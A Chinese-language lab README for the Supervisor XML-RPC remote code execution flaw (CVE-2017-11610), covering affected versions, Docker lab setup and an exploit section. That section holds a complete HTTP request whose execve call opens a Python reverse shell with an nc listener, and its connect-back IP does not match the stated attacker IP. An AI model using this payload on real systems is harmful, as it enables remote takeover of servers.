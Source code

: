 ## Supervisor Authenticated Remote Code Execution(CVE-2017-11610)

### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

### 影响版本

已经确认：

* Supervisor 3.1.2 <= Version <= 3.3.2 

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://127.0.0.1/9001/RPC2 | vulapps | vulapps

> 本环境默认无认证，如需开启，请修改 `/etc/supervisor.conf` 文件

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### Exp

**注意：该 Exp 会导致 supervisord 进程退出，生产环境中请慎用**

反弹 Shell

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听

 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可

```
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

---

![](./exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)

